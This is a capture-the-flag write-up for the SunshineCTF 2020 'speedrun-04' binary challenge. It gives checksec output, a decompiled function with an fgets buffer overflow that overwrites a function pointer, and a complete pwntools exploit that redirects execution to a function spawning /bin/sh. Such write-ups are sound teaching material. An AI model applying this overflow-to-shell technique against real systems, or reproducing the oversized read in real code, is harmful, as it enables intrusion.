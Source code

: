 ## speedrun-04

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

No stack canary, assume BOF, however no need to smash the stack with this one.
No PIE, easy ROP.

### Decompile with Ghidra

```c  
void vuln(void)  
{  
 char local_48 [56];  
 code *local_10;  
  
 fgets(local_48,100,stdin);  
 (*local_10)();  
 return;  
}

void win(void)  
{  
 system("/bin/sh");  
 return;  
}  
```

Basic BOF.  Overrun `local_48` with `0x48 - 0x10` (`56`) bytes of garbage,
then the address to `win`.

> Notice the use of `fgets` vs. `gets`.  `fgets` is `gets` with limits,
> however setting that to `100` for a 56-byte array kinda defeats the purpose.

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_04')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30004)

p.sendlineafter('Like some kind of madness, was taking control.\n','foobar')

payload  = b''  
payload += 56 * b'A'  
payload += p64(binary.sym.win)

p.sendline(payload)  
p.interactive()  
```
